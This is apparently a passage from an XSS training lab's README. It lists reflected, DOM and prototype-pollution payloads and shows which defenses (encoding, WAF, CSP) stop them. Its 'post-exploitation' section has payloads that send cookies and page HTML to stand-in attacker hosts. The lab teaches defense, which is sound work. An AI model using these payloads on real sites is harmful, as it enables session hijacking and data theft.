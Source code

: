 Example:
```bash
curl "http://localhost:3000/reflected?clientValidation=true&input=<script>alert('bypassed')</script>"
```

### Key Training Point
The DOM-based error feedback demonstrates that client-side validation is purely for UX. The shake animation and red styling make it clear something is blocked, but attackers can easily bypass it. This is NOT a security control.

## Common Payloads to Try

### Basic XSS Payloads
- `<script>alert('XSS')</script>`
- `<img src=x onerror=alert('XSS')>`
- `<svg/onload=alert('XSS')>`
- `<iframe src="javascript:alert('XSS')">`
- `<body onload=alert('XSS')>`

### Post-Exploitation Payloads (Test with CSP)

#### Cookie Theft / Session Hijacking
- `<script>fetch('https://attacker.com?cookie='+document.cookie)</script>`
- `<script>new Image().src='https://evil.com?session='+document.cookie</script>`
- `<img src=x onerror="navigator.sendBeacon('https://attacker.com',document.cookie)">`

#### Data Exfiltration
- `<script>fetch('https://evil.com?data='+btoa(document.body.innerHTML))</script>`
- `<img src=x onerror=fetch('https://attacker.com?html='+encodeURIComponent(document.documentElement.outerHTML))>`

#### Session Riding (CSRF-like)
- `<script>fetch('/admin/delete',{method:'POST'})</script>`
- `<form action="https://attacker.com" method="POST"><input name="data" value="stolen"></form><script>document.forms[0].submit()</script>`

#### Redirect with Data
- `<script>document.location='https://attacker.com?cookie='+document.cookie</script>`

### Prototype Pollution Payloads
- `__proto__[innerHTML]=<img src=x onerror=alert('PP')>`
- `constructor[prototype][xss]=<svg/onload=alert('PP')>`
- `__proto__[src]=javascript:alert('XSS')`

## Expected Behavior Summary

| Control | Reflected | Stored | DOM-Based | Prototype |
|---------|-----------|--------|-----------|-----------|
| None | ❌ Vulnerable | ❌ Vulnerable | ❌ Vulnerable | ❌ Vulnerable |
| Client Val | ⚠️ Bypassed | ⚠️ Bypassed | ⚠️ Bypassed | ⚠️ Bypassed |
| Server Val | ✅ Protected | ✅ Protected | ❌ No Effect | ❌ No Effect |
| Encoding | ✅ Protected | ✅ Protected | ✅ Protected | ✅ Protected |
| WAF | ✅ Protected | ✅ Protected | ❌ No Effect | ❌ No Effect |
| CSP (script-src) | ✅ Blocks Execution | ✅ Blocks Execution | ✅ Blocks Execution | ✅ Blocks Execution |
| CSP (connect-src) | ⚠️ Allows XSS but blocks fetch | ⚠️ Allows XSS but blocks fetch | ⚠️ Allows XSS but blocks fetch | ⚠️ Allows XSS but blocks fetch |
